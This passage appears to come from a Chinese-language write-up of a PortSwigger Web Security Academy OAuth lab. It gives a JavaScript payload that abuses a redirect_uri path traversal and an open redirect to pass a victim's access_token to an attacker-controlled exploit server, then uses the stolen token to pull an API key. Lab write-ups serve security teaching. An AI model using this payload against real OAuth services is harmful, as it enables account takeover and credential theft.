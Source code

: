 [![](assets/1706059995-54439e2b94f664b0a3bf6c80a042a621.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233742-2e8b7a0e-b93c-1.png)  
随后我们进入到利用环境，构造如下载荷

```plain
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

[![](assets/1706059995-3868c223b6b4cedcd56baef9364eed9f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233803-3b2215ac-b93c-1.png)  
分发请求之后我们可以在访问日志中看到 access\_token 的记录  
[![](assets/1706059995-19f56fe4de9a291d39954e1e5ed609d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233815-4206a0c2-b93c-1.png)  
随后我们使用获取到的 access\_token 替换/me 请求报文中的 token 参数并发送数据包，此时可以获取到 apikey 凭据信息，随后提交答案即可  